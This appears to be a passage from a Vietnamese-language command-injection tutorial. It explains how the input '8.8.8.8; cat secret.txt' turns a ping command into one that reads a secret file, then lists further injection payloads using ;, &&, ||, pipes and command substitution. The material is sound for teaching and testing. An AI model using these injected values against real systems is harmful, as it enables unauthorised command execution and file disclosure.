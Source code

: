 ### Cách Khai Thác

**Input**: `8.8.8.8; cat secret.txt`

**Command thực tế**:

```bash
ping -c 4 8.8.8.8; cat secret.txt
```

**Giải thích**:

-   `ping -c 4 8.8.8.8` → Thực thi bình thường
-   `;` → Kết thúc lệnh đầu, bắt đầu lệnh mới
-   `cat secret.txt` → Đọc file bí mật

## 🧪 Các Payload Khác

### Command Chaining

#### Sử dụng `;` (Sequential)

```bash
8.8.8.8; whoami
8.8.8.8; pwd
8.8.8.8; id
```

#### Sử dụng `&&` (AND operator)

```bash
8.8.8.8 && whoami
8.8.8.8 && pwd
8.8.8.8 && ls -la
```

#### Sử dụng `||` (OR operator)

```bash
invalid_ip || whoami
invalid_ip || pwd
```

#### Sử dụng `|` (Pipe)

```bash
8.8.8.8; ls | wc -l
8.8.8.8; ls | grep secret
```

### Command Substitution

```bash
8.8.8.8; echo "User: $(whoami)"
8.8.8.8; echo "Date: `date`"
8.8.8.8; echo "PWD: $(pwd)"
```
